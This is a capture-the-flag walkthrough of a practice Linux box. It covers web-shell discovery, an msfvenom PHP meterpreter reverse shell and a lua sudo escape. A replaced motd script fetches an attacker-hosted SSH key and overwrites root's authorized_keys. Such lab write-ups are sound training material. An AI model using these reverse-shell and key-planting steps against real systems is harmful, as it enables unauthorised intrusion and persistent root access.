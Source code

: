 As always, we start with nmap - it comes back with ports 80 and 22 open, so naturally we go check out the web page.

>Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 12:10 EDT  
Nmap scan report for 10.10.10.181  
Host is up (0.036s latency).  
Not shown: 65533 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)  
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)  
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Help us  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

![websiteLanding](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Initially, my assumption was to jump into dirb or gobuster and try to enumerate where the mentioned backdoor might be, but that doesn't get us anything here.
Instead, hitting 'view page source' gives us this comment:

![websiteComment](https://github.com/DefinitelyNotDex/imageURLgoesHere)

If we google that phrase we get a Github page where the author is the same user who owned the site. 
Scrolling down the list of web shells, we can throw all of them into the end of the URL until one works for us.
If we also click on the Github link for that particular shell we get a set of default creds, which work nicely.

![webShell](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Wonderful, we have a web shell. This shell is fully functional and you can use it to priv-esc to the actual user with minimal issues. I didn't want to deal with it, though, so I compiled my own php shell with msfvenom, uploaded it, set up a metasploit handler to catch the connection, accessed my shell url, and used that shell going forward:

>**msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php**

Once we have this shell, time to enumerate. You can do this manually, but to save time I used the linux enumeration script found [here](https://github.com/diego-treitos/linux-smart-enumeration), using wget to download the script directly to the machine:

>**wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh**

Running that script shows us that we have a command we're allowed to run as sudo, /home/sysadmin/luvit. If we also take a look at our home directory we have a file called note.txt which explains the sysadmin left us a way to mess around with lua, which is presumably that file. We can run the file with the following command:

>**sudo -u sysadmin /home/sysadmin/luvit**

Running it, however, gets us an error. Specifically, we get a *traceback* error that the script tries to call a method that doesn't exist. Going by the name of the machine, we're on the right track.

![luvitError](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Combing that output from the traceback might not give you much at first glance, but when I tried to throw the output of running luvit into a text file I noticed the error message was not included. What was included at the end of the file was a carrot character, which indicated to me that this might be the lua interpreter, similar to the python interpreter. Therefore, we might be able to pass it a command or script, which ended up working. I used [this](https://justhack.in/shell-escapes-cheatsheet) link to grab a very easy shell escape script, which I uploaded to the host, appended with the same luvit command, and ran:

>**sudo -u sysadmin /host/sysadmin/luvit shell.lua**

This got me a functional bash shell for the sysadmin user, but it was still coming through the webadmin user's meterpreter shell, which was a pain. I generated a second shell, this time just a standard linux reverse tcp meterpreter shell, uploaded it, created a new handler to catch the shell, and ran it as the sysadmin user to get a sysadmin meterpreter shell.

Now we have an actual user shell and can grab the user flag. 
Running the same linux enumeration script we used above shows that we can access and *write* to the /etc/.update-motd.d/ files, which are bash scripts that generate the welcome message when someone ssh's into the server. There is a script on this box that constantly overwrites them with the defaults, so we'll have to be fast when we use those to priv esc to root. To do so, we'll have to modify them, then immediately ssh into this host in order for the .update-motd.d script to run. 

Going back to the initial webadmin shell, we are able to navigate to /home/webadmin/.ssh and edit the authorized_keys file, which is the file that stores the public ssh key. We can then ssh back to the host as webadmin using the corresponding private key.

To do this, I used ssh-keygen to create the key pair on my local kali machine, dropped the public key into /home/webadmin/.ssh, and copied its contents into the authorized_keys file. Once that was done, I tested that I was able to ssh to the host as webadmin, and we're ready to exploit the .update-motd.d scropt. 

Since the etc/.upload-motd.d files are quickly overwritten (they're maybe there for 5-15 seconds before going back to the original set) I couldn't upload a reverse shell, as it would die rather quickly. What we can do as root, though, is add another set of ssh keys so we can just ssh to the box as root. To do so, we need to replace the motd file and ssh into the box as webadmin to execute the script before it is overwritten. Multiple shell windows queued and ready to go helps here. I hosted the directory with the ssh keys using python's SimpleHTTPServer, and grabbed them with the bash script that we replaced the motd header with:

Local machine (from the directory with the bash script '00-header' inside):
>**python -m SimpleHTTPServer 80**

Bash script:

>**#!/bin/sh**  
**wget http://10.10.14.4/root-key-rsa.pub -P /root/.ssh**  
**cat /root/.ssh/root-key-rsa.pub > /root/.ssh/authorized_keys**  

Sysadmin shell:

>**meterpreter>upload 00-header /etc/.update-motd.d/00-header**  
>**meterpreter> cat 00-header**

(that cat is to confirm 00-header is the correct file and hasn't been immediately overwritten)

Local machine (separate shell window)

>**ssh -i ./webadmin-rsa-key webadmin@10.10.10.181**

As long as the sysadmin shell command and the ssh command were done closely enough together and in sequence, the root ssh key overwrite works well. Now we can just ssh back to the host as root using that new ssh key, grab the root flag, and finish this box off entirely

>**ssh -i ./root-key-rsa root@10.10.10.181**
